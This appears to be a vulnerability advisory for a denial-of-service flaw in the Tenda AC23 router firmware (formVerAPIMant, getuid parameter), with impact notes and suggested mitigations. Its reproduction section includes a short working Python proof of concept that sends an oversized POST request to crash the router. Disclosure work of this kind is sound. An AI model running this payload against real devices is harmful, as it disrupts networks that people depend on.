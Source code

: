 # Vulnerability Title
Denial of Service Vulnerability in the `formVerAPIMant` Function of Tenda AC23 Router  

# Vulnerability Details
## Description
A binary vulnerability exists in Tenda AC23 firmware version V16.03.07.52. Attackers can exploit this vulnerability by sending malicious requests to a specific API interface, causing the device's CPU to overload and the router to crash, rendering it inaccessible. This vulnerability can be triggered remotely, leading to service disruption and affecting the normal operation of network devices.  

### Vendor Information
+ **Vendor Name (Chinese)**: 深圳市吉祥腾达科技有限公司
+ **Vendor Name (English)**: Shenzhen Tenda Technology Co., Ltd.  
+ **Official Website**: [https://www.tenda.com.cn](https://www.tenda.com.cn)  
+ **Affected Product and Version**: Tenda AC23 V16.03.07.52  
+ **Affected Device Type**: Network devices (e.g., routers, switches)

### Vendor Information Screenshots
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739873653516-0f658861-6adb-4598-8738-37985560893d.png)  

![](file-XkX9KWK8HnCCZrtpck8R5z.png)  

## Vulnerability Type
Denial of Service (DoS)  

## Vulnerability Verification Process
1. **Firmware Download**: [Tenda AC23 Firmware Download](https://www.tenda.com.cn/download/detail-3889.html)  
2. **Reproduction Steps**:  
Attackers can trigger the vulnerability by sending specially crafted malicious requests, causing the router to crash and become unresponsive. Below is an example of the attack code:

```python
import requests

url = "http://192.168.85.160/goform/VerAPIMant"
data = {
    "getuid": b'A' * 1000000000  # Construct oversized data
}

res = requests.post(url=url, data=data)
print(res.content)
```

3. **Attack Results**:  
    - The router's CPU usage spikes to 100%, causing the device to crash.  
    - The router becomes inaccessible and cannot be restored via the web interface.

### Firmware Download Page Screenshots
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739873659104-7e1dbd67-6e2e-4592-ac52-ca289e766c70.png)  

![](file-1qQZQXMchqe8VFraVjtxux.png)  

### Vulnerability Trigger Results Screenshots
+ The following screenshots show the router's interface after the attack, indicating network failure.  
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739873793085-d0adeb88-7d57-4a21-8c41-fa3856b65ec2.png)  
![](file-5Lj4uUnRz5b9QUNqdD4xyM.png)

### Attack Process and Code Analysis Screenshots
1. **Vulnerability Code Analysis**:  
The vulnerability occurs in the `formVerAPIMant` function, which fails to validate the `getuid` parameter properly. Oversized input data causes the system to crash. The screenshots below show the relevant code snippets:  
    1. ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739873688247-cda64646-58fc-4ed4-b1fb-ca9b1a4bef9d.png)  
    2. ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739873781425-0490fa23-dda8-4c39-8102-77ef646b9705.png)
2. **Attack Execution Screenshots**:  
The screenshots below show the command-line output after executing the attack, confirming the successful triggering of the vulnerability.  
    1. ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739873766382-fce77166-de28-4c07-81bb-6703eafde838.png)  
![](file-BMDL3mJGH1edisMffAXBWp.png)

### CPU Usage Screenshots
+ After triggering the attack, the router's CPU usage reaches 100%, as shown in the screenshots below.  
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739873810919-2a7d829f-6ca9-4dae-a589-04c3c8bbb4a6.png)  
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739873738489-b0df5640-bb2a-4999-8658-518c5d5e7044.png)  
![](file-Wc5Q3iz5XdSkMyDezKnWTF.png)

## Vulnerability Location
+ The vulnerability resides in the `formVerAPIMant` function, which lacks proper validation for the `getuid` parameter. Attackers can crash the system by sending excessively large data packets.

## Vulnerability Impact
+ Attackers can exploit this vulnerability to disrupt device services.  
+ In multi-device environments, this vulnerability may cause prolonged network outages, severely affecting service stability.

# Mitigation Strategies
+ **Temporary Solution**:  
Limit oversized input to prevent the sending of abnormally large data packets.  
+ **Permanent Solution**:  
Fix the vulnerability in subsequent firmware updates by implementing proper input size validation to ensure the system can handle reasonable input sizes and prevent similar attacks.

